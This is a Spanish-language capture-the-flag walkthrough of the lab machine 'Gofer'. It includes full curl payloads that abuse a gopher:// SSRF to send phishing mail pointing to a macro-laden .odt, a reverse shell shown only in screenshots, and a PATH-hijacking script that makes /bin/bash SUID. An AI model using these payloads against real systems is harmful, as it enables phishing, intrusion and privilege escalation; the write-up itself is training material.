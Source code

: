 -------
- Tags: #odt #macros #gopher #smtp #cron-job #reversing #path-hijacking 
-------------
## Técnicas utilizadas
- Samba enumeration
- Send mail with Gopher [SSRF]
- Create malicious .odt
- Information Leaked in Cron Job
- Overwriting variable
- Path Hijacking
## Procedimiento

![[Pasted image 20230730002828.png]]

----------
#### Reconocimiento
Si lanzamos un **nmap** sobre la maquina, podemos ver estos puertos abiertos:
```ruby
# nmap -sCV -p22,80,139,445 -oN Ports 10.129.4.201
Nmap scan report for 10.129.4.201
Host is up (0.13s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 aa25826eb804b6a9a95e1a91f09451dd (RSA)
|   256 1821baa7dce44f60d781039a5dc2e596 (ECDSA)
|_  256 a42d0d45132a9e7f867af6f778bc42d9 (ED25519)
80/tcp  open  http        Apache httpd 2.4.56
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: Did not follow redirect to http://gofer.htb/
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: Host: gofer.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2023-07-29T19:02:06
|_  start_date: N/A
|_nbstat: NetBIOS name: GOFER, NetBIOS user: <unknown>, NetBIOS MAC: 000000000000 (Xerox)
|_clock-skew: -17h00m09s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jul 30 12:02:19 2023 -- 1 IP address (1 host up) scanned in 16.98 seconds
```

Un escaneo con **whatweb** sobre la pagina web, nos muestra que corre estas tecnologías por detras:
```ruby
# whatweb gofer.htb
http://gofer.htb [200 OK] Apache[2.4.56], Bootstrap, Country[RESERVED][ZZ], Email[info@gofer.htb], Frame, HTML5, HTTPServer[Debian Linux][Apache/2.4.56 (Debian)], IP[10.129.4.49], Lightbox, Script, Title[Gofer]
```

--------
#### Samba enumeration
Al intentar listar los recursos compartidos a nivel de red, nos daremos cuenta de que tenemos permisos de lectura, dado que esta permitido hacer uso de una sesión **nula**:
![[nullsession.png]]

Para no estar haciendo uso de **smbmap** o **smbclient** hare uso de monturas:
```
# mount -t cifs //gofer.htb/shares /mnt/shares
```

Dentro, encontramos un correo electronico el cual nos dice que **Jocelyn** ha sido victima de constante ataques de **phishing** y que a pesar de esto, ella sigue abriendo los enlaces. Además, de que ahora el unico formato de documento admitido sera **.odt**, y que para poder enviar correos, se necesitara hacerse de forma local en la red:
![[mail.png]]

-----------
#### Send mail with Gopher [SSRF]
Pues bien, si visitamos la web, no encontramos nada interesante. Aplicando **fuzzing** de directorios y de archivos tampoco llegamos a completamente nada, sin embargo, si **fuzzeamos** por subdominios, encontramos uno interesante:
![[subdomain.png]]

Al visitar este subdominio, de primeras, nos pedira una contraseña y un usuario que por ahora no tenemos. En este punto, podemos intentar **fuzzear** por archivos dentro de este mismo subdominio, solo que no encontramos nada, pero, si lo intentamos con el metodo **POST** encontramos el siguiente archivo:
![[index.png]]

En este punto, la propia maquina nos da una pequeña pista. El nombre es **Gofer** que hace referencia a **Gopher**, si buscamos por esto en **hacktricks** encontramos un articulo que nos da una orientación de que podemos hacer:
![[gopher.png]]

Bien, basicamente podemos hacer uso de **Gopher** para derivar un **SSRF** que nos permita mandar un correo a **Jocelyn** la cual se supone esta pendiente de los correos que les llega. Pero ahora surge un problema, ¿Cual sera el correo de **Jocelyn**? Si bien no lo indica en el correo que leimos, en la misma pagina nos dan un poco de informacion:
![[jennifer.png]]

Asi que el correo, siguiente la nomenclatura que vemos en el email, seria `jhudson@gofer.htb`. Ahora, solo queda preparar el **payload** que mandaremos, en este caso yo usare el mismo ejemplo que viene en [hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery)
solo que modificare algunas cosas:
```ruby
curl -s -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%202130706433%250d%250aMAIL%20FROM%3A%3sexcott@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BSexcott%5D%20%3Csexcott@sexcott%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20Te%20amo%20Jennifer%250d%250a%250d%250a%20%250ahttp://10.10.14.40:80/%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"
```

Basicamente, la data urlencodeada es esta:
```java
xHELO 2130706433
MAIL FROM:<sexcott@gofer.htb>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Sexcott] <sexcott@sexcott>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: Te amo Jennifer

 
http://10.10.14.40:80/

.
QUIT
```

Antes de lanzarlo, con python montaremos un servidor para ver si **Jocelyn** hice click en nuestro link:
![[python.png]]

---------------------
#### Create malicious .odt
Ahora al saber que **Jocelyn** esta viendo nuestro enlace y, además, como lo indica en el correo, esta en espera de un archivo **.odt**, solo nos queda montarnos un **.odt** malicioso con una macro por detrás que nos lance una **reverse shell**, esto se explica mucho mejor en este [articulo](https://jamesonhacking.blogspot.com/2022/03/using-malicious-libreoffice-calc-macros.html).

Para hacerlo, podemos seguir estos pasos:
1. Creamos un nuevo documento.
2. Vamos a la pestaña de Tools -> Macros -> Organize Macros -> Basic
3. Seleccionamos nuestro archivo y clickeamos New:
![[newmacro.png]]
5. Indicamos un nombre, el que deseemos.
6. Dentro colocamos nuestro comando malicioso, en este caso, me entablare una reverse shell:
![[macro.png]]
7. Tecleamos `ctrl + s` y guardamos el archivo donde queramos.
8. Vamos a Tools -> Customize -> Open Document -> Macro y dentro selecionamos nuestro macro y le damos OK:
![[assigmentMacro.png]]

9. Lo guardamos y listo, ya tenemos nuestro **.odt** malicioso

Con nuestro **.odt** creado, montamos un servidor con **python** y nos ponemos en escucha con **nc**. Mandamos el correo haciendo referencia a nuestro archivo **.odt**:
```ruby
curl -s -X POST "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%202130706433%250d%250aMAIL%20FROM%3A%3sexcott@gofer.htb%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BSexcott%5D%20%3Csexcott@sexcott%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20Te%20amo%20Jennifer%250d%250a%250d%250a%20%250ahttp://10.10.14.40:80/pwned.odt%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"
```

Y obtendriamos la shell y la primera flag:
![[shell.png]]

-----------
#### Information Leaked in Cron Job
Una vez dentro, podemos subir **pspy** y ver que procesos se estan ejecutando en intervalos regulares de tiempo y encontramos uno que se esta autenticando contra el Basic Autentication:
![[cronjon.png]]

con estas credenciales nos podemos conectar por **ssh** como **tbuckley**.

--------
#### Overwriting variable
Si listamos los grupos a los cuales pertenecemos, vemos que formamos parte de **dev**:
```
tbuckley@gofer:~$ id
uid=1002(tbuckley) gid=1002(tbuckley) groups=1002(tbuckley),1004(dev)
tbuckley@gofer:~$ 
```

Filtrando por archivos que pertenezcan a este grupo, encontramos un **SUID**:
```
tbuckley@gofer:~$ find / -group dev 2>/dev/null
/usr/local/bin/notes
tbuckley@gofer:~$ 
```

Aplicandando un poco de reversing con **Ghidra** vemos algo interesante:
![[binary.png]]

Esto, basicamente esta haciendo una comparación. Esta comparando que despues de 24 caracteres ( 0x18 es 24 en decimal ) exista una cadena con valor **admin**. Podemos abusar de esto dado que, si creamos un usuario, lo eliminamos, creamos una nota y despues verificamos nuestro rol este abra desaparecido:
![[roldontfind.png]]

Bien, es creando una nota cuando podemos sobreescribir el **Role**. Lo unico que tendriamos que hacer es colocar una cadena con una logitud de 24 caracteres y despues de esto colocar **"admin"**:
![[role.png]]

------------
#### Path Hijacking
Ahora como admin, tenemos la opción de crear un **backup** de las notas. Esto, es vulnerable a secuesto de **Path** dado que no hace alución a una ruta **absoluta** como lo vemos en el codigo:
![[tar.png]]

Creamos un archivo en **/tmp/** con nombre **tar** y dentro de este asignamos **SUID** a la **bash**:
```bash 
#!/bin/bash
chmod u+s /bin/bash
```

Exportamos el nuevo path de la siguiente forma:
```
tbuckley@gofer:~$ export PATH=/tmp:$PATH
tbuckley@gofer:~$ echo $PATH
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
```

Ahora, al crear un backup en vez de tirar de **tar** lo hara de nuestro archivo malicioso y le asignara privilegios **SUID** a la bash:
![[bashSuid.png]]


